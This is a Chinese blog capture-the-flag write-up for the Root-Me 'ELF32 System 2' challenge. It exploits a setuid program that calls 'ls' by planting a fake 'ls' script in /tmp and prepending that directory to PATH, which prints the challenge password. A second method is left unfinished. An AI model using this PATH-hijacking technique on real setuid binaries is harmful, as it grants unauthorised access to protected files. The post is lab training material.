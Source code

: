 <!--yml
category: 未分类
date: 2022-04-26 14:19:17
-->

# CTF-rootme 题解之Bash - System 2_weixin_30508309的博客-CSDN博客

> 来源：[https://blog.csdn.net/weixin_30508309/article/details/99600324](https://blog.csdn.net/weixin_30508309/article/details/99600324)

LINK:[https://www.root-me.org/en/Challenges/App-Script/ELF32-System-2](https://www.root-me.org/en/Challenges/App-Script/ELF32-System-2)

SourceCode:

```
 #include <stdlib.h>
    #include <stdio.h>

    int main(){
            system("**ls -lA /challenge/app-script/ch12/.passwd**");
            return 0;
    } 
```

**The target is to change 'ls' command as 'cat /challenge/app-script/ch12/.passwd'**

**the execution result change to:**cat /challenge/app-script/ch12/.passwd **-lA /challenge/app-script/ch12/.passwd******

app-script-ch12@challenge02:~$ **ls -l ch12**

-r-**s**r-x--- 1 app-script-ch12-cracked app-script-ch12 7160 Aug 11  2015 ch12           (suid programm,could be execute as root)

******Solution 1:****** 

app-script-ch12@challenge02:~$******mkdir /tmp/ch12/****** 

app-script-ch12@challenge02:~$************echo '#!/bin/sh' >/tmp/ch12/ls************

app-script-ch12@challenge02:~$************************echo 'cat '****************** **********************/challenge/app-script/ch12/.passwd********************** ******************>>/tmp/ch12/ls************************

app-script-ch12@challenge02:~$************************chmod +x****************** ******************/tmp/ch12/ls************************

app-script-ch12@challenge02:~$************************export PATH=************************/tmp/ch12/************************:$PATH************************

app-script-ch12@challenge02:~$************************************************/challenge/app-script/ch12/ch12 ************************************************

************************************************8a95eDS/*e_T#************************************************

************************************************Solution 2:************************************************

app-script-ch12@challenge02:~$mkdir /tmp/ch12/

app-script-ch12@challenge02:~$cp /bin/nano /tmp/ch12/

 app-script-ch12@challenge02:~$export PATH=/tmp/ch12/:$PATH

app-script-ch12@challenge02:~$/challenge/app-script/ch12/ch12